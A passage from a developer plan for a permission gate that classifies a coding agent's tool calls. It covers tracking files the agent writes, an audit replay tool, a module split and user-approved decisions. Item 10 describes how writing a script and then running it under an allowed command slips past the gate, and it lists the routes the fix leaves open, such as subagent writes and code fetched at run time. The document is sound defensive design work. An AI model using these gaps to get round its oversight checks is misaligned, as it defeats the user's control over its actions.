    `getBranch()`, so a resumed session keeps its history. omp's `getBranch()` walks the whole path, and compaction
    only appends an entry and leaves tool-call arguments intact (`session/session-manager.ts:3387`, `:3572`;
    `pi-agent-core/src/compaction/shake.ts:306`).
  - **Why the branch alone is not enough.** omp gates every tool call of an assistant message before it saves
    that message (`pi-agent-core/src/agent-loop.ts:2216`, `prepareToolCallDispatch`, runs before the `message_end`
    push at `:2248`). A `write` followed by `bash` in one message is therefore not in the branch when the bash
    call is gated. pi 0.84.3 saves the message first (`dist/core/agent-session.js:371-384`), so this is an omp gap.
    The branch also drops writes when the user moves to another conversation branch, while the files stay on disk
    (omp `navigateTree`, `agent-session.ts:11307`; pi `session-manager.js:1034-1040`).
  - **Excerpts for a same-batch write come from the recorded payload, not from disk.** Both hosts gate every call
    of a batch before running any of them (omp `agent-loop.ts:3036-3039`; pi `dist/agent-loop.js:322-365`), so
    when the bash call is gated the file holds its old content or does not exist. A file written in an earlier
    batch is read from disk.
- **Execution detection.** The call model's `executes` list names a file the command runs:
  - a command word that resolves to a file;
  - the first non-option operand of an interpreter (`bash`, `sh`, `zsh`, `python`, `python3`, `node`, `bun`, `deno`,
    `ruby`, `perl`);
  - `source` and `.`;
  - a fixed runner-to-manifest table: `npm`, `pnpm`, `yarn` and `bun` `run`/`test` read `package.json`; `make` reads
    `Makefile`; `just` reads `justfile`.

  The probe grows the table by case.
- **Effect.** When an `executes` target is in the written set, two things change:
  - no allow path admits the call, neither a user allow nor the fast path, so the call reaches the classifier;
  - the classifier's action line carries an excerpt of each written target.

  The item never denies by itself; the classifier decides.
- **The excerpt.** The tool-access plan landed the excerpt helper: `actionCallLine` appends
  `boundedExcerpt(content, EXCERPT_CHARS)`, marked `[excerpt: N of M chars]`, to a `write` or `edit` action only. Its
  command branch returns before any excerpt, so item 10 extends that branch. After the command, each written target
  gets one line naming the file, followed by its excerpt:
  - a same-batch target uses the recorded payload, which for an `edit` is the patch text rather than the whole file;
  - an earlier-batch target is read from disk. The read takes a bounded prefix and reports the file size as the
    total, so a large file is cut behind the usual marker rather than refused;
  - a missing or unreadable file gets an explicit `[content unavailable: <reason>]` marker;
  - at most three targets get an excerpt, and a `[N more written targets]` line counts the rest.
- **The action cap.** Excerpts never count toward `ACTION_LINE_MAX_CHARS`, the rule Phase 4 set for write excerpts.
  The over-cap ask still reads the command text alone.
- **Redaction.** When the redactor matches the bash call's arguments, the whole action line becomes
  `<protected-path>` as it does today, excerpts included. Otherwise the redactor also runs over each excerpt's source
  text, passed as `{ content }`. A match replaces that excerpt with the marker and keeps the command. A `write`
  action already gets the same treatment, because the redactor's raw-JSON check reads its content.

**Limits, stated in the ADR and the CHANGELOG.** This narrows the laundering path and does not close it. The written
set does not cover:

- files that a subagent wrote, because omp runs each subagent in its own session with a fresh extension instance
  (`task/executor.ts:495-503`, `:4060-4066`);
- files written in another session, as opposed to the resumed current one;
- code fetched at run time;
- execution the table does not model, such as a test runner discovering `test_*.py` or a module importing another.

**Tests and probe.** Under `allow: ["^bash scripts/"]`, after `write scripts/x.sh`, `bash scripts/x.sh` reaches the
classifier. Its transcript contains the excerpt marker, checked through `h.calls`. The same holds for `package.json`
with `npm test` under `allow: ["^npm test\\b"]`. Controls: running a file not written this session keeps today's
verdict. A written file that is only read (`cat scripts/x.sh`) is unaffected. A same-batch case: with the `write`
gated but not yet run and absent from the branch, the following `bash scripts/x.sh` still reaches the classifier,
and its excerpt comes from the recorded payload. A resumed session whose branch holds the earlier `write` seeds the
set at `session_start`. A written file deleted before it runs gets the unavailable marker. A written script whose
content names a `denyPaths` base reaches the classifier with its excerpt replaced by `<protected-path>` and the
command intact. A long excerpt alongside a command just under `ACTION_LINE_MAX_CHARS` does not trigger the over-cap
ask.

**Dependency.** Item 9's `executes` and `writes`. The excerpt helper and the redactor it builds on
(`boundedExcerpt`, `redactorFor`) landed with the tool-access plan.

## Part C: evidence and structure

### 11. Replay recorded decisions against a new build (size S-M)

**Problem.** Rule changes are argued from reasoning and from simulations that need private data (`research/`).
Nobody can show how a change moves the user's real decisions. The audit log (`AuditLog`, `:2661`, opt-in) holds the
right material for gray-zone calls: tool, full input, cwd, verdict, source, and the user's answer on an ask. But it
leaves rule allows and denies unaudited (the `AuditRecord` comment at `:2626`), so there is no denominator.

**Change.**

- **(a) Compact rule-verdict records.** With `audit` on, record each rule-layer verdict as a compact record: time,
  session, tool, verdict, source, and rule id or ask source. It carries no input and no path. This gives the share of
  calls each layer decides.
- **(b) `tools/replay.ts` (`bun run replay`).** It reads the audit files read-only and re-runs `adjudicate` for each
  gray-zone record with the current build, under a temporary agent dir and a classifier stub that returns a sentinel.
  It reports counts:
  - records still gray;
  - records now rule-allowed, by rule id (for example the fast path);
  - records now rule-denied or asked, by rule id;
  - the classifier's agreement with the user's answers.

  Output holds counts and rule ids only. A `--show` flag prints commands to the local terminal. It never touches the
  network or the live agent dir.
- **Caveats.** Path grading reads the current disk, so the report flags records whose cwd no longer exists. Replay is
  a development tool like the `research/` simulations: it is not part of CI, because the data is private.

**Use.** Run it before item 7 lands, to measure the fast path's absorption, and before any new floor rule, to count
how many recorded classifier allows the rule would have denied.

**Tests.** A synthetic audit fixture under `tests/` drives the replay end to end. The fixture includes a record whose
cwd is missing.

### 12. Split the single file along the call model's seams (size L in M steps)

**Problem.** `extensions/pi-verdict.ts` holds about eleven concerns in 4,788 lines: shell lexing, path resolution,
configuration and trust, the floor, self-protection, `denyPaths`, the classifier transport, the cascade, the dialog,
the footer and the wiring (`research/2026-10-04-architecture-review.md`, F11). Module-level state that tests cannot
vary, such as `HOME_RULE_ROOTS` and `CASE_INSENSITIVE_FS`, lives at import time.

**Loader facts, verified 2026-10-05.** Both hosts load every `.ts` or `.js` file directly inside `extensions/` as a
separate extension, and load a subdirectory only through its `index.ts`:

- omp 18.5.1: `extensibility/extensions/directory-resolution.ts:102-145`, reached from the plugin manifest by
  `plugins/loader.ts:317-331`;
- pi: `dist/core/extensions/loader.js:528-589`, per the earlier audit.

omp names an `index.ts` extension after its directory (`discovery/helpers.ts:922-929`), so
`extensions/pi-verdict/index.ts` keeps the name `pi-verdict` and existing `disabledExtensions` entries still apply.
This settles the tool-access plan's open loader question.

**Change.**

- **Layout.** Use `extensions/pi-verdict/index.ts` for the wiring, with sibling modules in that directory:
  - shell reading;
  - path resolution;
  - call model;
  - rules (floor, user rules, `denyPaths`, self-protection);
  - classifier and cascade;
  - audit;
  - configuration;
  - UI (dialog, footer).

  `extensions/jev-adapter.ts` stays where it is.
- **Order.** Split first, before item 9 (reordered 2026-10-07; the file had grown to 6,285 lines). Cut along the
  file's existing banner sections, one module per commit, by mechanical moves with no behaviour change and probe
  parity. The call-model module does not exist yet; item 9 creates it inside the split layout, and may move code
  between modules when it redraws a seam. Re-verify the loader facts above against the installed omp (18.6.1 on
  2026-10-07) before the first move.
- **Module-level state.** Move it into `SessionState` or an injected platform object (home, case-insensitivity,
  realpath), so that tests can vary it.

**What must change with the layout:**

- **Self-protection.** `buildProtectedSet` (`:1879`) protects the installed copy as a single exact file when
  `ownFile` is a file under `extensions/`. After the split, `ownFile` is `index.ts`, and the sibling modules would be
  unprotected. The protected target must become the module directory. Pin it with a test before the first move.
- **Publishing and provenance.** Update the `package.json` `files` whitelist to the directory. `tools/provenance.ts`
  hashes a fixed two-file list and must hash every shipped file. The consumer's single-file sha256 check changes
  with it.
- **Install by copy.** `AGENTS.md` tells the user to copy `extensions/pi-verdict.ts` into the agent's `extensions/`.
  If an old single-file copy sits beside a new directory copy, both load, and two gates register the same flags,
  commands and shortcut. The CHANGELOG and README must give the exact migration: delete the old file, then copy the
  directory. Git-spec installs need no action.
- **Imports.** The probe, the tests and `tools/` import from the new paths.

## Interaction with the tool-access plan

`docs/plans/tool-access-hardening.md` has been executed (its round outcome landed in `a0cbd2f`). Its "Interaction
with the call-model plan" section covers this plan from its side. Every dependency below is therefore met.

- **Items 1-8 and 11** are independent of it. Its Phase 2 reworks `userRuleTargets` and the user allow loop, and item
  1 changes the same loop's `allowAdmits` call. Whichever lands second rebases onto the other; there is no logical
  conflict.
- **Item 7** inherits that plan's ordering rule: the over-cap ask runs before every allow path.
- **Item 9** extends that plan's `toolAccess` adapter and needs its Phase 2. It takes over that plan's deferred
  "one path-resolution service".
- **Item 10** needs that plan's Phase 4 (content excerpt) and Phase 5 (redaction).
- **Item 12** takes over that plan's deferred file split, and answers its open loader question (item 12, "Loader
  facts").
- **ADR numbers.** That plan reserves ADR-0009 and ADR-0010. Items 7 and 9 take the next free numbers at landing
  time. Items 1-2 amend ADR-0008. Item 10's limits go into item 9's ADR or into their own, decided at landing.

## Delivery

Each commit carries its failing-before tests, its probe cases with markers removed, its CHANGELOG entry, docs sync
and a regenerated `docs/coverage.md`. Refactor commits (item 9 steps 1, 2, 4 and 5, and all of item 12) instead carry
probe parity and no CHANGELOG entry, unless the step's text names a visible change.

The order below was set by the user on 2026-10-07 (decision 11). Two pieces of work outside this plan run around
it, both tracked in `TODO.md`: the silent subagent-block diagnosis comes before step 1, and the simplify-then-recomment
pass from the tool-access round's review runs module by module between steps 1 and 2.

1. Item 12, in M-sized `refactor(layout): …` commits along the file's existing sections. The first commit pins the
   directory-level self-protection.
2. `fix(floor): gcloud S0 home, macOS raw disks (items 3-4)`.
3. `fix(floor): git stash clear tripwire (item 5)`.
4. `fix(floor): environment and history exfiltration tripwire (item 6a)`.
5. `fix(rules): allow rules grade their operands and git's outside reach (items 1-2)`, with item 1a, the ADR-0008
   amendment and BREAKING notes. Check item 1a's home expansion against `expandHostPath`/`hostPathForms`, which
   landed on 2026-10-07, and reuse them rather than adding a second expansion.
6. `feat(audit): compact rule-verdict records and a replay tool (item 11)`. It is the safety net for step 7 and
   the evidence base for step 8.
7. Item 9: first its ADR (`docs(adr): …`), reviewed by the user; then five commits (`refactor(gate): …` for steps 1,
   2, 4 and 5; `fix(paths): …` for step 3). It includes the differential tests against omp's own path code that
   `TODO.md`'s rule-engine item proposes.
8. `feat(rules): built-in fast path for read-only inspection commands (item 7)`, with its new ADR, measured with
   step 6's replay; then `feat(classifier): name weakened transport security (item 8)`.
9. `feat(gate): follow session-written code into its execution (item 10)`, after item 9.

OS-level sandboxing (`docs/plans/os-level-sandboxing-draft.md`) is a separate track. Its first branch, documenting
how to run omp inside an existing sandbox, can land at any point; a built-in sandbox waits for item 9.

The shared verification set matches the tool-access plan's: `bun run typecheck`, `mise exec -- biome ci .`,
`bun test`, `bun run probe` (the existing cases never regress), and `bun run coverage && git diff --exit-code
docs/coverage.md`. Prove failing-before against a temp copy of `git show HEAD:extensions/pi-verdict.ts`, not by
stashing the shared worktree. Commits need the user's approval of this plan. There is no version bump, tag or push
unless the user asks.

## Decisions

Approved by the user on 2026-10-05:

1. Items 1-5 and item 8 as written. **Approved.**
2. Item 6: adopt (a), skip (b). **Agreed with the user on 2026-10-05.**
3. The operand cap in item 1: 64 operands; past that, refuse the admission. **Approved.**
4. Item 7's default: `fastPath` on by default. **Agreed with the user on 2026-10-05.**
5. Item 7's rejected entries: the package-script runners, the test runners and the linters. **Approved:** keep them
   out of the built-in list. A user who wants them can add them to their own `allow` list.

Approved by the user later on 2026-10-05, after the merge:

6. **Item 1a, in commit 1.** Expand only `~`, `$HOME` and `${HOME}`; refuse every other variable, `~user`, braces
   and globs, except a top-level non-hidden glob. Add the `HOME` reassignment guard. **Approved.**
7. **Items 9-12 into scope**, in the delivery order above. Item 11 outright. Items 9 and 10 as the direction, with
   item 9's ADR reviewed by the user before any of its code. Item 12 last. **Approved.**
8. **Item 11's rule-verdict records: compact, with no input.** **Approved.** Full records would let the replay
   re-judge rule-allowed calls, but they would multiply the log volume. If that check turns out to matter, add an
   opt-in full-record level later.
9. **Item 10's written set: an in-memory set as the primary source, seeded from the session branch at
   `session_start`; excerpts for same-batch writes come from the recorded payload.** **Approved**, on the host
   research recorded in item 10.
10. **Item 12's layout: `extensions/pi-verdict/index.ts` with sibling modules.** **Approved.** A `lib/` directory
    would split the shipped code across two trees in `files`, provenance and self-protection.

Approved by the user on 2026-10-07:

11. **Delivery reordered: item 12 first, then items 3-6, 1-2, 11, 9, 7-8 and 10.** **Approved.** This supersedes
    decision 7's "item 12 last". The file had reached 6,285 lines, and every later item is cheaper to write and
    review in smaller modules. The cost is that item 9 may move some code a second time when it redraws a seam.
